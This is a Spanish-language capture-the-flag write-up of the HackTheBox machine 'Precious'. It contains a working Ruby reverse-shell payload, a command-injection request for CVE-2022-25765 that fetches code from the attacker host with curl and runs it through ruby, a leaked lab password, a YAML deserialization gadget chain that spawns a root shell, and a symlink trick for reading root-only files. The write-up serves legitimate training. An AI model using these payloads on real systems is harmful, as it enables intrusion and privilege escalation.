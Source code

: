 ```yaml
---
title: Precious HTB Writeup
published: 2023-04-06
description: 'Explotamos una version vulnerable de PDFKit, luego abusamos de un script con permisos SUDO.'
image: './img/1.png'
tags: [Easy, Linux]
category: 'HackTheBox'
draft: false 
---
```


Precious es una máquina linux sencilla creada por Nauten en Hack the Box que cuenta con un servidor web que utiliza una versión de PDFKit vulnerable a CVE-2022-25765, que puede ser explotada para ejecutar comandos como el usuario ruby. Dentro del directorio personal de este usuario encontramos una carpeta que contiene un archivo de configuración con las credenciales de otro usuario llamado henry. Como henry, podemos ejecutar un script en particular como root a través del comando sudo. Este script es vulnerable a una forma de deserialización de YAML, que nos lleva a la ejecución de código como root.

# Initial Recon

Primero vamos a configurar nuestro entorno y ejecutar un puerto TCP.

```bash
# mhil4ne@Kali
export rhost="10.10.11.189" # Target IP address
export lhost="10.10.14.4" # Your VPN IP address
echo rhost=$rhost >> .env
echo lhost=$lhost >> .env
. ./.env && sudo nmap -sS -p- --open --min-rate 3000 -n -Pn -vvv $rhost -oG nmap
```

Los puertos TCP abiertos reportados en el escaneo incluyen:

| Port | Service | Product | Version |
|------|---------|---------|---------|
| 22   | ssh     | OpenSSH | 8.4p1   |
| 80   | HTTP    | nginx   | 1.18.0  |

l escaneo también informa que el puerto 80 responde con una redirección a http://precious.htb/ . Añadamos este nombre de host a nuestro archivo /etc/hosts.

# Web

Empezaremos visitando http://precious.htb/ en nuestro navegador favorito.

![alt text](./img/2.png)

La página aparentemente tiene alguna funcionalidad que convertirá el contenido de una URL dada en un documento PDF.

## PDF Generator

Al enviar una URL ficticia a través del formulario web, observamos una petición de nuestro navegador con BurpSuite.

![alt text](./img/3.png)

La petición sólo pasa la URL enviada al servidor. Vamos a probar esta funcionalidad en nuestro propio servidor HTTP.

```bash
# mhil4ne@Kali
mkdir share && cd share
echo '<p>Hello!</p>' > index.html
python3 -m http.server --bind $lhost 8080
```

```bash
# mhil4ne@Kali
curl -d "url=http://$lhost:8080/" http://precious.htb/ -o response.bin
```

Recibimos una petición a nuestro servidor HTTP y posteriormente recibimos el resultado PDF.

```bash
# mhil4ne@kali
file response.bin # The response body is a PDF document
xdg-open response.bin # Open the document
```

El documento contiene el texto «¡Hello!», lo que es de esperar porque ese es el contenido que teníamos antes en nuestro sitio. Comprobando los metadatos del documento con exiftool, descubrimos que el campo Creador menciona que el documento se generó utilizando un producto identificado como PDFKit v0.8.6.

## CVE-2022-25765

Después de algunas investigaciones, determinamos que esta versión de pdfkit es vulnerable a CVE-2022-25765, lo que significa que potencialmente podríamos inyectar comandos del sistema operativo como se explica aquí. Intentemos explotar el bug para establecer una sesión de shell inversa con PwnCat. Usaremos una shell inversa escrita en Ruby porque sabemos que Ruby está instalado ya que PDFKit está escrito en Ruby.

```bash
# mhil4ne@Kali
mkdir -p share && cd share
rb="require 'socket';spawn('sh',[:in,:out,:err]=>TCPSocket.new('$lhost',8443))"
echo "$rb" > index.html # Write ruby reverse shell to web index
python3 -m http.server --bind $lhost 8080 &>/dev/null & # Serve payload
pwncat-cs -m linux -l $lhost 8443 # PwnCat listener | Install: `pip3 install pwncat-cs`
```

```bash
# mhil4ne@Kali
curl precious.htb -d "url=http://%2520%60curl%20$lhost:8080|ruby%60" # Trigger payload
```

# Privilege Escalation

## Ruby

Nuestra sesión de shell inversa está en el contexto del usuario ruby. En el directorio principal de este usuario, encontramos el archivo ~/.bundle/config que contiene las credenciales potenciales

```bash
# ruby@precious.htb (PwnCat)
find ~ -type f # We find a configuration file of sorts
cat ~/.bundle/config # Let's read it
```

El usuario henry, asociado con la contraseña Q3c1AqGHtoI0aXAYFH, también está presente en la máquina actual con la misma contraseña.

```bash
# mhil4ne@Kali
pwncat-cs ssh://henry@precious.htb # password is Q3c1AqGHtoI0aXAYFH
```

## Henry

Como henry, podemos ejecutar un comando específico como root a través de sudo.

```bash
# henry@precious.htb (SSH)
sudo -l
```

Echemos un vistazo a este script y veamos lo que hace.

```bash
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Este script no hace mucho más que llamar a YAML.load sobre el contenido del fichero dependencies.yml{:.filepath} de nuestro directorio de trabajo. Al investigar las vulnerabilidades que afectan a YAML.load, descubrimos que no es seguro utilizarlo con datos suministrados por el usuario. También nos encontramos con este maravilloso post que describe una cadena de gadgets que potencialmente podríamos utilizar para ejecutar comandos como root. Vamos a modificar el comando dentro de la carga útil YAML del post para generar un shell interactivo de root

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -pi"
         method_id: :resolve
```

Ahora con el payload YAML dependencies.yml{:.filepath} en nuestro directorio de trabajo, ejecutamos el script vulnerable con sudo

```bash
# henry@precious.htb (SSH)
sudo /usr/bin/ruby /opt/update_dependencies.rb # trigger the payload
```

El comando genera con éxito un intérprete de comandos raíz, desde el que podemos leer la bandera final en /root/root.txt{:.filepath}.

# Alternative Solution

Otra forma en la que podríamos obtener la bandera raíz es utilizando el script en /opt/update_dependencies.rb{:.filepath} para leer archivos a través de un enlace simbólico. Cuando el script busque dependencies.yml{:.filepath} en el directorio de trabajo, encontrará un enlace simbólico plantado que apuntará a /root/root.txt{:.filepath}. Cuando el script intente analizar el archivo como YAML, mostrará un error con el contenido del archivo.

```bash
# henry@precious.htb (SSH)
cd $(mktemp -d)
ln -s /root/root.txt ./dependencies.yml # create symlink
sudo /usr/bin/ruby /opt/update_dependencies.rb # read /root/root.txt
```
